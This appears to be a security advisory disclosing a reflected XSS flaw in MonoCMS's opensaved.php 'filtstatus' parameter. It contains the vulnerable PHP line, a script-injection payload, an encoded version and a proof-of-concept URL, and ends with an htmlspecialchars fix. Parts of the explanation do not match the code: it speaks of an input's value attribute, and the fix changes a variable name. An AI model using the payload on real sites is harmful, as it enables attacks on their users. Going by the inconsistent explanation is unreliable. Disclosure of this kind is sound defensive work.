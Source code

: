 # [XSS vulnerability] found in MonoCMS 23-20240528 - (/monofiles/opensaved.php)


Affected Project: **MonoCMS**

Web: Php

Vendor: MonoCMS

Official Website: (https://monocms.com/)

Version: 23-20240528

Updated: 28 May, 2024

Related Code file: /monofiles/opensaved.php

Injection parameter: `filtstatus`

<br />

Sha1: 9532cda20cf7fa456d6f00ce0fe194767913ba83

<br />

## Vulnerability Description:
The issue arises because the `filtstatus` parameter from the URL is being directly inserted into the value attribute of an HTML input element without proper sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
if (isset($_GET['filtstatus']))
    echo '<option value="#">'. $_GET['filtstatus'].'</option>'.PHP_EOL.'<option value="opensaved.php'.$slink.'">All</option>';
```

<br />

## Injection Payload Tested:

We set `filtstatus` to:
```
</option><script>alert('XSS');</script><option>
```

<br />

## URL-encoded, this becomes:
```
%3C%2Foption%3E%3Cscript%3Ealert('XSS');%3C%2Fscript%3E%3Coption%3E
```

<br />

## Resulting HTML After Injection:
```
<option value="#"></option><script>alert('XSS');</script><option></option>
```


The injected `"></script>` closes the value attribute and the input tag, allowing the <script> tag to be inserted into the DOM.

<br />

## Execution:

When the browser parses this HTML, it executes the `</option><script>alert('XSS');</script><option>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `/monofiles/opensaved.php` looks like:

<br />

![opensaved.php](https://i.postimg.cc/XNBmMxsN/1.png)

<br />

Then we can add our payload `</option><script>alert('XSS');</script><option>` :
```
http://localhost:8080/monofiles/opensaved.php?filtstatus=</option><script>alert('XSS');</script><option>
```

<br />

![payload](https://i.postimg.cc/7Yvcq7R3/2.png)

<br />

After submitting the url with the vulnerable parameter `filtstatus` and the XSS payload `</option><script>alert('XSS');</script><option>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/g2gNL6gB/3.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
if (isset($_GET['filtstatus']))
    echo '<option value="#">' . htmlspecialchars($_GET['filtstatus'], ENT_QUOTES, 'UTF-8') . '</option>' . PHP_EOL . '<option value="opensaved.php' . $clink . '">All</option>';
```

<br />

> One Click Can Change Everything: Be Secure.
